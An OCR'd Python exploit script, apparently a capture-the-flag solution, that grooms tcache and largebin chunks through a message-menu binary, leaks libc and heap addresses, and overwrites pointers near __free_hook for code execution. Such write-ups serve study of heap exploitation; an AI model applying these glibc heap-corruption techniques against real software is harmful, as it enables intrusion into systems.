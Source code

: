 ```python
for i in range(5):
    add_message(0x90,'tcache size\n' * (0x90 // 48))
    delete_message(i)
change_rol(1)
for i in range(7):
    add_message(0x150,'tcache size\n' * (0x150 // 48))
    delete_message(i)
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 7*
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 8
delete_message(7)
change_rol(2)
add_message(0xB0,'split7\n' * (0xB0 // 48)) # 5
change_rol(1)
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 9*
add_message(0x150,'to unsorted\n' * (0x150 // 48)) # 10
delete_message(9)
change_rol(2)
add_message(0xB0,'split9\n' * (0xB0 // 48)) # 6
# prepare done
change_rol(1)
add_message(0x410,'leak_libc\n' * (0x410 // 48)) # 11
add_message(0x410,'largebin\n' * (0x410 // 48)) # 12
add_message(0x410,'\n' * (0x410 // 48)) # 13
delete_message(12)

change_rol(2)
change_rol(1)
view_message(12)
sh.recvuntil("is: ")
libc_base = u64(sh.recv(6).ljust(8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 96
view_message(5)
sh.recvuntil("is: ")
heap_base = u64(sh.recv(6).ljust(8,'\x00')) - 0x12750
log.success("libc_base: " + hex(libc_base))
log.success("heap_base: " + hex(heap_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]
_IO_list_all_addr = libc_base + libc.sym["_IO_list_all"]
#_IO_str_jump_addr = libc_base + libc.sym["_IO_str_jump"]
_IO_str_jump_addr = libc_base + 0x1ED560
system_addr = libc_base + libc.sym["system"]
############################### leak done ###############################
add_message(0x410,'get back\n' * (0x410 // 48)) # 14
change_rol(2)
add_message(0x420,'largebin\n' * (0x420 // 48)) # 7
add_message(0x430,'largebin\n' * (0x430 // 48)) # 8
delete_message(7)
add_message(0x430,'push\n' * (0x430 // 48)) # 9
change_rol(1)
change_rol(2)
edit_message(7,(p64(0) + p64(__free_hook_addr - 0x28)) * (0x420//48))

change_rol(1)
delete_message(14)
add_message(0x430,'push\n' * (0x430 // 48)) # 15
# largebin attack done

change_rol(3)
add_message(0x410,'get_back\n' * (0x430 // 48)) # 0

change_rol(1)
edit_message(9,(p64(heap_base + 0x12C20) + \
                p64(__free_hook_addr - 0x20)) * (0x150 // 48))
change_rol(3) 
```
